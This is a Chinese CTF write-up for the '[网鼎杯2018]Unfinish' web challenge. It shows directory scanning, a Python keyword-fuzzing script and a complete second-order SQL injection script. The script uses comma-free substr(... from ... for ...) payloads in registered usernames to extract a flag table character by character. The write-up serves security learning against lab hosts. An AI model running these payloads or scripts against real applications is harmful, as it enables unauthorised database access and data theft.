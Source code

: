 # [网鼎杯2018]Unfinish

#SQL #二次注入

进入网页，发现登录页面，网址是/login.php，既然有登录页面，肯定有注册页面。用dirsearch扫一下，使用命令：

```bash
python dirsearch.py -u <http://d26627ba-6adc-4bd4-b2b4-57aa2adfafee.node4.buuoj.cn:81/> -e * --timeout=2 -t 1 -x 400,403,404,500,503,429 -w db/mylist.txt
```

[https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)

todo dirsearch扫不出来。。

-w参数表示使用自定义字典。发现以下文件：

```
register.php
index.php
login.php
```

尝试访问/register.php，发现注册页面。随便取一个名字，登陆后，发现页面回显用户名。先Fuzzing一下，使用代码：

```python
import requests
from bs4 import BeautifulSoup
import time
url = '<http://e86388ae-b622-42a7-b6ad-f90c5faa70a0.node4.buuoj.cn:81/>'
fuzzDictpath = "F:/code/CTF/fuzzDicts/"
fuzzDict = open(fuzzDictpath + "sqlDict/mysql.txt", 'r', encoding='utf-8')
fuzzlist = fuzzDict.read().splitlines()
for i in range(len(fuzzlist)):
    register = {'email':'{}@qq.com'.format(i),'username':fuzzlist[i],'password':'1'}
    req = requests.session()
    r1 = req.post(url + 'register.php',data = register)
    html = r1.text
    soup = BeautifulSoup(html, 'html.parser')
    if (soup.body.string == "\\nnnnnoooo!!!"):
        print(fuzzlist[i])
    time.sleep(1)
```

运行完之后，发现以下字符被过滤：

```python
information
INFORMATION
information_schema.tables
,
```

使用的fuzz字典为：

[WEB SQL Fuzz Dict](https://yym68686.top/WEB-SQL-Fuzz-Dict-7eae109526b743ca942a4973620e3ab1)

通过Fuzz，可知：

1. 因为过滤了逗号，所以不能进行报错注入，而且不能通过闭合INSERT后面的(A,B,C)来实现注入。同时也不能用substr(str, pos, len)，因为逗号被过滤了，查看官方文档：
   [MySQL SUBSTR() function - w3resource](https://www.w3resource.com/mysql/string-functions/mysql-substr-function.php)
   发现可以用 `substr(str from pos for len)`达到 `substr(str, pos, len)`一样的效果，同时绕过了逗号。
2. 因为information被过滤，所以不能获取表名，但也不能用sys库，因为在MySQL5.6或更高版本才有sys库，而本题mysql版本为5.5.64，显然不可用。所以只能猜测表名为flag。

猜测注册时SQL语句大概为：

```python
insert table values ('email','username','password')
```

可以通过闭合达到注入效果，可以想到是二次注入。可以这样闭合：

```sql
insert table values ('email','0'+ascii(substr((select * from flag) from {} for 1))+'0','password')
```

红色为我们的payload。把零删掉也可以：

```sql
insert table values ('email',''+ascii(substr((select * from flag) from {} for 1))+'','password')
```

编写代码：

```python
import requests
from bs4 import BeautifulSoup
import time
url = '<http://e86388ae-b622-42a7-b6ad-f90c5faa70a0.node4.buuoj.cn:81/>'
flag = ''
for i in range(100):
    payload = "0'+ascii(substr((select * from flag) from {} for 1))+'0".format(i + 1)
    register = {'email':'abc{}@qq.com'.format(i),'username':payload,'password':'123456'}
    login = {'email':'abc{}@qq.com'.format(i),'password':'123456'}
    req = requests.session()
    r1 = req.post(url + 'register.php',data = register)
    r2 = req.post(url + 'login.php', data = login)
    r3 = req.post(url + 'index.php')
    html = r3.text
    soup = BeautifulSoup(html, 'html.parser')
    UserName = soup.span.string.strip()
    if int(UserName) == 0:
        break
    flag += chr(int(UserName))
    print("\\r" + flag, end = "")
    time.sleep(1)
```

运行后得到flag。

当然也可以用双重hex来做。

References

[Python之requests模块-session](https://www.cnblogs.com/zhuosanxun/p/12679121.html)

[网鼎杯 2018 unfinish](https://codeantenna.com/a/1qCcdLe9eB)

[[网鼎杯2018]Unfinish](https://mayi077.gitee.io/2020/08/18/%E7%BD%91%E9%BC%8E%E6%9D%AF2018-Unfinish/)

[[网鼎杯2018]Unfinish](https://www.cnblogs.com/h3ng/p/14380790.html)

[2018 网鼎杯 unfinish](https://zhuanlan.zhihu.com/p/150627938)

[[网鼎杯2018]Unfinish(二次注入)](https://guokeya.github.io/post/gW7Qnkxsi/)